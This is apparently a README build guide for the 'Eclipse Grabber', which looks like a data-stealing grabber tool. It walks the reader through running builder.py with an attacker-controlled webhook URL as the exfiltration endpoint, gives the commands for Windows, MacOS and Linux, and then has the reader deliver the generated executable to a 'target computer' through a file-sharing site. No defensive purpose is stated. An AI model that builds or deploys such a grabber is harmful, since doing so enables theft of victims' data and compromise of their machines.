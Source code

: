 # Build Guide for the Eclipse Grabber
## Run the builder.py Script

To build an eclipse grabber you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

![image](https://imgur.com/fEIbIfb.png)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### MacOS
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your generated file in the **dist** directory.

## Execute the generated Eclipse Grabber

Now that you have the Executable file you can share it with the target coputer and run it. You can use a file uploading service like [this](https://file.io) one to **upload/download** the file to the computer.
